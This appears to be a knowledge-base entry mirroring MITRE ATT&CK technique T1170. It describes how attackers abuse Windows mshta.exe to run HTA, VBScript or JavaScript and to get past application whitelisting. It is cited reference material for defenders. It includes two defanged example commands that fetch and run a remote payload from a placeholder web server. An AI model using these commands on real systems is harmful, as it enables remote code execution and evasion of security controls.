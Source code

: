 ```yaml
---
alias: Mshta
---
```


## Mshta

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)


### Tactic

- [[Defense Evasion]] (TA0005)
- [[Execution]] (TA0002)

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1170
- Wikipedia HTML Application: https://en.wikipedia.org/wiki/HTML_Application
- MSDN HTML Applications: https://msdn.microsoft.com/library/ms536471.aspx
- Cylance Dust Storm: https://s7d2.scene7.com/is/content/cylance/prod/cylance-web/en-us/resources/knowledge-center/resource-library/reports/Op_Dust_Storm_Report.pdf
- Red Canary HTA Abuse Part Deux: https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
- FireEye Attacks Leveraging HTA: https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html
- Airbus Security Kovter Analysis: https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/
- FireEye FIN7 April 2017: https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html
- LOLBAS Mshta: https://lolbas-project.github.io/lolbas/Binaries/Mshta/

